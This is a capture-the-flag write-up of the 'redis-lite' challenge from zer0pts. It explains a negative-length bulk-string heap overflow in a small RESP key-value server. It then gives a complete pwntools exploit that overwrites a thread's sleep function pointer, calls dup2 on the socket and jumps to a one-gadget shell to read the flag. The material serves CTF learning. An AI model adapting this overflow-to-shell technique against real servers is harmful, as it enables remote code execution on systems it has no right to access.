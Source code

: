 # redis-lite writeup

Team: Super HexaGoN (Super Guesser + KAIST GoN)

Chal solved together with procfs :+1:


## Analysis

A "lite Redis" Key-Value DB which follows [RESP](https://redis.io/topics/protocol).

Vulnerability exists in `resp_receive_bulk` where sending bulk string of length -3 will result in overflow, i.e. receives infinite byte-by-byte input in a `calloc(1, 0)` buffer.


## Exploit

The vulnerability is usually unexploitable in a single-thread program, but in this case we have threads running in the background for key expiration. Thus the exploit plan is simple: let the buffer be allocated in an address lower than struct passed to expiration handlers, then do the infinite OOB to overwrite sleep fptr as well as unit for edi-control.

I always love to smash oneshots in my exploits, so checking the register state at the time of calling `(u)sleep` revealed that `rsi == rdx == NULL`, great for the oneshot below:

```
0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Okay Xion, but you can't just pop shell on a forkserver talking through a socket!

Remember oneshot constraint **`rsi == NULL`**? And how we can control edi by overwriting `unit` field of the expiration handler struct?

Great! This lets us call `dup2(4, 0)` where 4 is our connection sockfd. Call this first, followed by oneshot and BOOM! We popped shell! Just `cat /flag* >&0` to pop flag (the redirection is necessary, fd 1 is currently server's stdout). A lunatic solution for a lunatic pwn chal :)


## Solver Code

```python
#!/usr/bin/env python3

from pwn import *

LOCAL = False

libc = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')


def resp_bulk_string(data, length=None):
    if length == None:
        length = len(data)
    return b"$" + str(length).encode() + b"\r\n" + data + b"\r\n"


def resp_bulk_string_2(data, length):
    return b"$" + str(length).encode() + b"\r\n" + data


def resp_array(elements):
    return b"*" + str(len(elements)).encode() + b"\r\n" + b"".join([x for x in elements])


def set_elem(key, value):
    command = []
    command.append(resp_bulk_string(b"SET"))
    command.append(resp_bulk_string(key))
    command.append(resp_bulk_string(value))
    p.send(resp_array(command))


def set_elem_with_expiration(key, value, ex_type, timeout):
    command = []
    command.append(resp_bulk_string(b"SET"))
    command.append(resp_bulk_string(key))
    command.append(resp_bulk_string(value))
    command.append(resp_bulk_string(ex_type))
    command.append(resp_bulk_string(str(timeout).encode()))
    p.send(resp_array(command))


def spawn():
    global p
    if LOCAL:
        p = remote("127.0.0.1", 6379)
    else:
        p = remote("pwn1.ctf.zer0pts.com", 6379)


def brute(vals):
    spawn()
    for i in range(10):
        set_elem_with_expiration(b"a"*8, b"b"*8, b"PX", 1000000)
    for i in range(10):
        set_elem_with_expiration(b"a"*8, b"b"*8, b"PX", 100000000)
    # some awesome heap stuff

    payload = b""
    payload += b"\x00"*0x270
    payload += bytes(vals)

    p.send(resp_bulk_string_2(payload, -3))
    
    try:
        st = time.time()
        while True:
            et = time.time()
            if et-st > 2:
                return True
            p.recv(timeout=0.1)
    except EOFError:
        return False
    finally:
        p.close()


def exploit():
    spawn()
    for i in range(10):
        set_elem_with_expiration(b"a"*8, b"b"*8, b"PX", 1000000)
    for i in range(10):
        set_elem_with_expiration(b"a"*8, b"b"*8, b"PX", 100000000)
    # some awesome heap stuff

    payload = b"\x00"*0x270
    payload += p64(libc.sym['dup2']) + p32(0x4) + p32(0x7fffffff) + p64(0)

    p.send(resp_bulk_string_2(payload, -3))
    sleep(0.5)

    payload = b"\x00"*0x198
    payload += p64(libc.address + 0xe3b34) + p32(0) + p32(0x7fffffff) + p64(0)
    p.send(payload)


if __name__ == "__main__":
    # step 1. leak
    '''
    usleep = [0x40] #0x840
    for i in range(0x8, 0xf8+1, 0x10):
        if brute(usleep + [i]):
            usleep.append(i)
            print(usleep)
            break
    else:
        assert False
    for ct in range(4):
        for i in range(0, 0x100, 1):
            print(ct, i)
            if brute(usleep + [i]):
                usleep.append(i)
                print(usleep)
                break
        else:
            assert False
    
    usleep = u64(bytes(usleep) + b'\0\0')
    libc.address = usleep - libc.sym['usleep']
    '''
    libc.address = 0x7f2c10bc1000
    assert libc.address & 0xfff == 0
    log.success(f'{libc.address = :#014x}')

    # step 2. dup2 & rce
    exploit()
    p.sendline('cat /flag* >&0')
    p.interactive()
```
